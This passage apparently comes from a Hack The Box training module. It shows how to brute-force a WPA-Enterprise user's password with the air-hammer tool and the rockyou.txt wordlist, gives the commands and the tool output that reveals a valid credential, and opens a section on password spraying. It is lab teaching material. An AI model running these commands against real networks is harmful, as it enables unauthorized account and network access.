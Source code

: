 Note: Air-hammer is installed in the /opt/air-hammer directory.

* * *

## Bruteforcing the Password

Imagine a scenario where we've already identified the username (e.g., `HTB\Sentinal`) during our reconnaissance phase, and now we want to perform a horizontal attack using the `rockyou.txt` password list. In this case, we would use `air-hammer` to carry out the attack. It's important to remember that the username we discovered includes a domain prefix ( `HTB`), so this must be included in the brute-force attempt to ensure success.

```shell
echo "HTB\Sentinal" > user.txt
python2 air-hammer.py -i wlan1 -e HTB-Corp -p /opt/rockyou.txt -u user.txt

[0]  Trying HTB\Sentinal:123456...
[0]  Trying HTB\Sentinal:12345...
[0]  Trying HTB\Sentinal:123456789...
[0]  Trying HTB\Sentinal:password...
[0]  Trying HTB\Sentinal:iloveyou...
[0]  Trying HTB\Sentinal:princess...
[0]  Trying HTB\Sentinal:1234567...
[0]  Trying HTB\Sentinal:rockyou...
[0]  Trying HTB\Sentinal:12345678...
[0]  Trying HTB\Sentinal:abc123...
[0]  Trying HTB\Sentinal:nicole...
[0]  Trying HTB\Sentinal:daniel...
[0]  Trying HTB\Sentinal:babygirl...
[0]  Trying HTB\Sentinal:basketball...
[0]  Trying HTB\Sentinal:pretty...
[0]  Trying HTB\Sentinal:loveyou...
[0]  Trying HTB\Sentinal:amanda...
[0]  Trying HTB\Sentinal:hannah...
[0]  Trying HTB\Sentinal:superman...
[0]  Trying HTB\Sentinal:1234567890...
[0]  Trying HTB\Sentinal:bubbles...
[0]  Trying HTB\Sentinal:joshua...
[0]  Trying HTB\Sentinal:jennifer...
[0]  Trying HTB\Sentinal:carlos...
[0]  Trying HTB\Sentinal:andrea...
[0]  Trying HTB\Sentinal:secret...
[!] VALID CREDENTIALS: HTB\Sentinal:football
[0]  Trying HTB\Sentinal:chocolate...

```

* * *

## Performing Password Spray

Once we have a valid password, we can employ a [reverse brute-force](https://en.m.wikipedia.org/wiki/Brute-force_attack#Reverse_brute-force_attack) attack. In this approach, `air-hammer` tries to authenticate to the target network by testing the given password with each username in the list. If multiple passwords are provided, the tool will attempt each username with the first password before moving on to the next password.
